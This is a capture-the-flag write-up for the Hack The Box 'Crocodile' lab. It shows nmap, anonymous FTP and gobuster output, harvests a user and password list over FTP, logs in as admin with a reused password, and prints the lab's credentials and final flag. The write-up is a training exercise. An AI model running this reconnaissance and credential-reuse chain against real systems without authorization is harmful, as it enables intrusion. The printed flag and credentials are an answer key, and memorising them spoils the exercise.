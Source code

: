 # Crocodile

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. What Nmap scanning switch employs the use of default scripts during a scan?

> -sC

#### 2. What service version is found to be running on port 21?

```sh
$ nmap -A -T4 10.129.224.66
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 12:57 CET
Nmap scan report for 10.129.224.66
Host is up (0.036s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
21/tcp   open     ftp            vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.107
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http           Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
1524/tcp filtered ingreslock
1972/tcp filtered intersys-cache
2809/tcp filtered corbaloc
3880/tcp filtered igrs
5959/tcp filtered unknown
8649/tcp filtered unknown
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.78 seconds
```

> vsftpd 3.0.3

#### 3. What FTP code is returned to us for the "Anonymous FTP login allowed" message?

> 230

#### 4. After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?

```sh
$ ftp 10.129.224.66
Connected to 10.129.224.66.
220 (vsFTPd 3.0.3)
Name (10.129.224.66): anonymous
230 Login successful.
```

> anonymous

#### 5. After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?

> get

#### 6. What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?

```sh
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> mget *
mget allowed.userlist? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
WARNING! 4 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0,000556 seconds (58 kbytes/s)
mget allowed.userlist.passwd? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
WARNING! 4 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
62 bytes received in 0,000221 seconds (274 kbytes/s)
ftp> ^D221 Goodbye.
$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
```

> admin

#### 7. What version of Apache HTTP Server is running on the target host?

> Apache httpd 2.4.41

#### 8. What switch can we use with Gobuster to specify we are looking for specific filetypes?

> -x

#### 9. Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?

```sh
$ gobuster dir -u http://10.129.224.66 -w dictionaries/common.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.224.66
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dictionaries/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.224.66/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 312] [--> http://10.129.224.66/css/]
/dashboard            (Status: 301) [Size: 318] [--> http://10.129.224.66/dashboard/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.224.66/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 311] [--> http://10.129.224.66/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/server-status        (Status: 403) [Size: 278]
Progress: 9446 / 9448 (99.98%)
===============================================================
Finished
===============================================================
```

> login.php

#### Submit root flag

Navigate to `http://10.129.224.66/login.php`:

![login](./login.jpg)

```sh
$ cat allowed.userlist.passwd 
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

Try to login with `admin:rKXM59ESxesUFHAd`:

![flag](./flag.jpg)

## Final Flag

> c7110277ac44d78b6a9fff2232434d16

*Created by [bu19akov](https://github.com/bu19akov)*